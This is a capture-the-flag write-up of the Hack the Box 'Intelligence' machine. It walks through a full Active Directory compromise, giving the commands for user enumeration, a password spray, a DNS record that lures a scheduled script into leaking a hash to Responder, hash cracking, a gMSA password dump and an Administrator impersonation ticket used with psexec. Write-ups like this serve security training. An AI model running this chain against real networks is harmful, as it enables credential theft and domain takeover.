


# Intelligence
**Date:** February 13th 2024

**Author:** j.info

**Link:** [**Intelligence**](https://www.hackthebox.com/machines/intelligence) on Hack the Box

**Hack the Box Difficulty Rating:** Medium

<br>


<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`nmap -sC -sV -p- -oN nmap --min-rate=4500 intelligence -Pn`

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Intelligence
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-29 01:30:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
|_ssl-date: 2024-01-29T01:31:47+00:00; +7h00m00s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

<br>

## Website Digging

Visiting the website on port 80 shows us:


There is no robots.txt and the only thing interesting in the source code is that it points out a directory called documents.

If you scroll down there are 2 documents that you're able to download, which I do, and then open them up and take a look but it's more of the Lorem Ipsum. I then analyze them with exiftool which gets me 2 uersnames.

`exiftool -a -u -g1 2020-12-15-upload.pdf | grep Creator`

`exiftool -a -u -g1 2020-01-01-upload.pdf | grep Creator`


I ran quick gobuster scans on the root and /documents but didn't reveal anything else.

I run a quick kerbrute after adding these users to a file named users.txt to see if they're valid, and they are.

`kerbrute userenum --dc intelligence -d intelligence users.txt`


<br>

## SMB Digging

I check if null sessions are allowed and they are, but we don't get any shares back when checking for them.

I try and run smbmap, crackmapexec, and enum4linux to see if I can get any additional info back, and then again plugging in the usernames I found, but don't get anything useful.

<br>

## LDAP Digging

I try and use ldapsearch, but don't find anything here since it requires credentials.

<br>

## RPC Digging

Again, this requires credentials so I can't get anything useful back with rpcclient.

<br>

## More Website Digging

I run some longer gobuster scans, but they don't come back with anything.

At this point the only thing we've seen on this website of use are a couple files, and they were both named in a standard naming convention of YEAR-MONTH-DAY-upload.pdf, so let's see if we can find any other files similar to these.

First I build a python script that will generate the dates and append -upload.pdf to the end of each one and output that to a file called dates.txt. If you'd like to use this code, here's a copy of it.

```python
from datetime import datetime, timedelta

start_date = datetime(2019, 1, 1)
end_date = datetime(2022, 1, 1)

delta = end_date - start_date

formatted_dates = []

for i in range(delta.days + 1):
    current_date = start_date + timedelta(days=i)
    formatted_dates.append(current_date.strftime('%Y-%m-%d') + '-upload.pdf')

file = 'dates.txt'
with open(file, 'w') as file:
    for date in formatted_dates:
        file.write(date + '\n')
```

I chose all dates from 2019 to 2022 since the files were dated 2020. Running the script outputs everything to dates.txt.

I then create a bash script that will use curl and try to download all files in the dates.txt file. Here is the script.

```sh
#!/bin/bash

url="http://10.129.95.154/documents/"
file="dates.txt"
total=0

while IFS= read -r file_name; do
    full_url="${url}${file_name}"

    if curl --head --silent --fail "$full_url" > /dev/null; then
        curl --silent -o "$file_name" "$full_url" && let total++
    fi
done < "$file"

echo "Complete. Downloaded $download_count total files."
```

And running the script shows we download a total of 99 files.


Manually going through 99 pdf files doesn't sound like a fun time to me so I use the pdftotext command with a loop export everything to .txt files and then grep them.

`for file in *.pdf; do [ -f "$file" ] && pdftotext "$file"; done`

The 2020-06-04-upload.txt file comes back as having the keyword password in it, so I cat it and find a default new user password listed, which I save to a file called pass.txt for later use.

`grep -n 'password' *`


And we may as well capture all of the usernames on these files like we did earlier. I use exiftool with some grepping, cutting, and sorting to export just the usernames to a file named users.txt.

`exiftool * | grep Creator | cut -d ":" -f 2 | cut -d " " -f 2 | sort -u > users.txt`


Now we can try and spray the default new user password against all of the usernames we collected using crackmapexec, and see if it works on any of the accounts.

`crackmapexec smb intelligence -u users.txt -p pass.txt | grep "[+]"`


Our girl Tiffany.Molina hooks us up with a set of credentials. Thank you Tiffany!

I try and use impacket-psexec to connect over but there are no writable SMB shares.

<br>

## More SMB Digging

I try and see if I can list shares and download files with Tiffany and it works giving us a PowerShell file in the IT share:


```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

So that script is looking at DNS to find webserver names and then trying to connect using default credentials. If it's successful nothing happens, if it fails it emails Ted Graves that the site is down. This makes me believe Ted is potentially an admin of some sort.

Looking at the Users share gives us access to the c:\users directory and I recursively download all files, but nothing too interesting other than the user.txt flag, which I'll wait to grab when we get an initial foothold.

<br>

## Bloodhound

I try and grab data with bloodhound-python which works, but it does come up with an error saying the clock skew is too great.

`bloodhound-python -d intelligence.htb -u 'Tiffany.Molina' -p'<REDACTED>' -ns 10.129.95.154 -c all --zip --dns-tcp`


The clock skew matters with Kerberos so I'm going to fix that and run this again just in case. You can do that with the ntpdate command, which isn't on Kali by default so you may need to install it.

`sudo ntpdate 10.129.95.154`


`bloodhound-python -d intelligence.htb -u 'Tiffany.Molina' -p'<REDACTED>' -ns 10.129.95.154 -c all --zip --dns-tcp`

Now that I've synced my time with the target box I run bloodhound-python again and this time it doesn't have any errors.


I then start up Bloodhound and drag the .zip file over to it to import the data.


I search out Tiffany and mark her as owned to start with.

Looking at Domain Admins it just shows the Administrator user.

There are no kerberoastable or as-rep roastable users.

Running shortest paths to domain ddmins shows us that Ted.Graves and Laura.Lee are a member of ITSUPPORT which can read the GMSA password for SVC_INT$, which is allowed to delegate to DC.INTELLIGENCE.HTB, which can DCSync.

Running shortest paths to unconstrained delegation systems also shows that Ted.Graves and Laura.Lee are a member of ITSUPPORT which is a member of SVC_INT$ which has delegation rights on the domain controller.

So it's looking like we need the credentials for either Ted or Laura.

The only place we've really seen anything on either is the powershell script that sends an email over to Ted, so let's start with that.

<br>

## DNS Manipulation

We saw the script was reaching out to anything in the DNS starting with web, so let's see if we can add a DNS entry that will have the script connect over to us and see what we can capture with Responder. Hopefully it's a hash for Ted.

[**This article explains how to perform the unconstrained delgation attack.**](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

The dstool.py isn't installed on Kali by default but you can [**find a copy here**.](https://github.com/dirkjanm/krbrelayx/tree/master)

I couldn't get it working with Kali, so I tried on a fresh Parrot install and it worked with no issues. I also had to install pycryptodome along with this since that's a dependency.

`python3 dnstool.py -u 'intelligence\Tiffany.Molina' -p <REDACTED> -r webnew.intelligence.htb -a add -t A -d 10.10.14.51 10.129.95.154`


I start up Responder and wait. This can take awhile since the script said it only runs every 5 minutes.

`sudo responder -I tun0`


And we get a hash back from Ted when the box reaches out to our newly created DNS entry!

Using hashcat I quickly crack the hash.

`hashcat -m 5600 -w 3 -O -D 1,2,3 hash.txt rockyou.txt`


<br>

## GMSA Password

We saw earlier with Bloodhound that Ted had the ability to read the GMSA password since he was a member of the IT group. GMSA is the Group Managed Service Account and you can [**read more about it on the official BloodHound site here**.](https://support.bloodhoundenterprise.io/hc/en-us/articles/17322425699355-ReadGMSAPassword)

In that article it links you to a tool called gMSADumper.py on [**this github**](https://github.com/micahvandeusen/gMSADumper) so I git clone it over to my system and run it.

`git clone https://github.com/micahvandeusen/gMSADumper.git`

 `python3 gMSADumper.py -u 'Ted.Graves' -p <REDACTED> -d intelligence.htb`
 


We get the hash back! Trying to crack it doesn't work, nor does trying it on crackstation or ntlm to password.

<br>

## Silver Ticket

Because svc_int$ is a service account we can try and request a silver ticket using impacket. Once we have the .ccache file I create an environmental variable named KRB5CCNAME pointing to it.

`impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes d365e889367ce3e3241b120db1df6e25:d365e889367ce3e3241b120db1df6e25`

`export KRB5CCNAME=/home/user/Administrator.ccache`


And that gives us a silver ticket that should be able to impersonate the Administrator user.

<br>

## System

Let's try and use that silver ticket with impacket-psexec to connect over.

`impacket-psexec intelligence.htb/Administrator@dc.intelligence.htb -k -no-pass`



We did it!

You can find the user.txt on Tiffany's desktop.


And the root.txt on the Administrator's desktop.


<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Finding PDF files on a website and using **exiftool** to get usernames
- Verifying those usernames with **kerbrute**
- Writing **python** and **bash** scripts to check for additional hidden PDF files on the website based on the naming convention and then downloading them all
- Using the **pdftotext** tool to convert all of the PDF files to text files so we can easily search for passwords and other information and finding a default new user password
- Using **crackmapexec** to spray the new user password against all users we have and finding an account it works with
- Finding a **powershell** script on an SMB share that makes web requests to any DNS entry strating with web
- Using **bloodhound-python** to download information to import into **BloodHound**
- Fixing our clock with **ntpdate** so that bloodhound-python doesn't give us an error message
- Adding a fake DNS entry with **dnstool.py** and making sure it starts with web so that powershell script we found will reach out to us
- Starting up **responder** and waiting for it to connect back, which it does and gives us an NTLMv2 hash
- Cracking the NTLMv2 hash with **hashcat**
- The user we cracked the hash for was a member of a group that had the ability to read the GMSA so we used a tool called **gMSADumper.py** to get the has for a service account
- Using **impacket-getST** with the service account to create a **silver ticket** that impersonates the Administrator
- Using **impacket-psexec** to connect over as the Administrator using that silver ticket

<br>

Many thanks to:
- [**Micah**](https://app.hackthebox.com/users/22435) for creating this CTF
- **Hack the Box** for hosting this CTF

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)